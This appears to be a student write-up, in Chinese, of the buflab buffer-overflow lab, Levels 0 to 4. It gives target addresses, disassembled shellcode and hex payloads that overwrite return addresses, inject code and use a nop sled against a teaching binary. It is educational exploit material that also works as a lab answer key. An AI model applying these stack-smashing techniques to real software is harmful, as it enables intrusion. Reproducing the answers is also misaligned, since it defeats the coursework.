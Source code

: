 ### buflab

##### Level 0

1. 关键函数

   <img src=".\assets\20210410_1.png" style="zoom:80%;" /> 

   * 通过查看 `getbuf` 函数的汇编代码可知：`Gets` 函数输入字符串的地址相对于存放 `getbuf` 函数返回地址的位置的偏移为：`0x28 + 4`

   * `smoke` 函数的起始地址为：`0x08048c18`

     

2. payload

   ```
   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
   18 8c 04 08		/* getbuf_fun's ret_address */
   ```

   

3. 结果

   <img src=".\assets\20210410_2.png" style="zoom:80%;" /> 



##### Level 1

1. 关键函数

   <img src=".\assets\20210410_3.png" style="zoom:80%;" />  

   * `fizz` 函数的起始地址为：`0x08048c42`

     

2. payload

   ```
   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
   42 8c 04 08		/* getbuf_fun's ret_address */
   00 00 00 00		/* fizz_fun's ret_address	*/
   f4 13 bc 72		/* fizz_fun's parameter		*/
   ```

   

3. 结果

   <img src=".\assets\20210410_4.png" style="zoom:80%;" /> 



##### Level 2

1. 信息

   * 查看 `buf` 地址：`0x55682f58`

     <img src=".\assets\20210410_5.png" style="zoom: 67%;" /> 

   * `bang` 函数的起始地址为：`0x08048c9d`；`global_value` 保存的地址为：`0x804d100`

     <img src=".\assets\20210410_6.png" style="zoom: 67%;" /> 

     <img src=".\assets\20210410_7.png" style="zoom:67%;" /> 

   * shellcode

     ```assembly
     
     temp.o:     file format elf32-i386
     
     
     Disassembly of section .text:
     
     00000000 <.text>:
        0:	c7 05 00 d1 04 08 f4 	movl   $0x72bc13f4,0x804d100
        7:	13 bc 72 
        a:	68 9d 8c 04 08       	push   $0x8048c9d
        f:	c3                   	ret    
     ```

     <img src=".\assets\20210410_9.png" style="zoom:80%;" /> 

     

2. payload

   ```
   c7 05 00 d1 04 08 f4 13 bc 72 68 9d 8c 04 08 c3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
   58 2f 68 55
   ```

3. 结果

   <img src=".\assets\20210410_8.png" style="zoom:67%;" /> 



##### Level 3

1. 信息

   * `getbuf` 函数返回到 `0x8048dbe`，`leave` 后 `ebp = 0x55682fb0`，所以要在栈中原本放 `ebp` 的位置放 `0x55682fb0`。

   <img src=".\assets\20210410_10.png" style="zoom:67%;" /> 

   * shellcode

     ```assembly
     
     temp.o:     file format elf32-i386
     
     
     Disassembly of section .text:
     
     00000000 <.text>:
        0:	b8 f4 13 bc 72       	mov    $0x72bc13f4,%eax
        5:	68 be 8d 04 08       	push   $0x8048dbe
        a:	c3                   	ret    
     ```

     

   

2. payload

   ```
   b8 f4 13 bc 72 68 be 8d 04 08 c3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
   b0 2f 68 55
   58 2f 68 55
   ```

   

3. 结果

   <img src=".\assets\20210410_11.png" style="zoom:67%;" /> 



##### Level 4

1. 知识

   <img src=".\assets\20210410_12.png" style="zoom: 67%;" /> 

   

2. 信息

   * 在 `pwndbg` 中查看  5 次 `getbufn` 函数中 `buf` 的位置，分别为：`0x55682d78, 0x55682d78, 0x55682d38, 0x55682d18, 0x55682d18`。所以必须 `return` 到一个比这 5 个地址都大的位置（我选择 `0x55682e78`），并且在前面要填充的 `0x208` 个字节中，除了最后放置 `shellcode` 之外，其他位置全部填 `0x90` ，形成足够长的 `nop sleds`。

     <img src=".\assets\20210410_13.png" style="zoom:80%;" /> 

   * shellcode

     将 `ebp` 写在栈上让 `0x8049228` 处的 `leave` 指令自动 `pop` 的方式已经不适用，因为地址是动态的。这个 `leave` 的作用其实就是程序流从当前函数退回到父函数的时候，改变 `esp,ebp` （相当于 `mov esp,ebp; pop ebp;`），使其从指向子函数栈帧变成指向父函数栈帧。而且，正常 `leave` 并且 `ret` 之后，在父函数的栈帧中，`esp` 与 `ebp` 之间的相对偏移是确定的（在这里 `ebp - esp = 0x28`），现在已经有 `ret` 后的 `esp` 了，可以在 shellcode 中为 `ebp` 赋值。

     <img src=".\assets\20210410_14.png" style="zoom:80%;" /> 

     ```assembly
     
     temp.o:     file format elf32-i386
     
     
     Disassembly of section .text:
     
     00000000 <.text>:
        0:	8d 6c 24 28          	lea    0x28(%esp),%ebp	; esp + 0x28 -> ebp
        4:	b8 f4 13 bc 72       	mov    $0x72bc13f4,%eax
        9:	68 3a 8e 04 08       	push   $0x8048e3a	; 返回到 0x8048e3a <testn+20>
        e:	c3                   	ret    
     ```

     

3. payload

   ```
   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
   8d 6c 24 28
   b8 f4 13 bc 72 
   68 3a 8e 04 08 
   c3 
   00 00 00 00
   78 2e 68 55
   ```

   

4. 结果

   <img src=".\assets\20210410_15.png" style="zoom:67%;" /> 







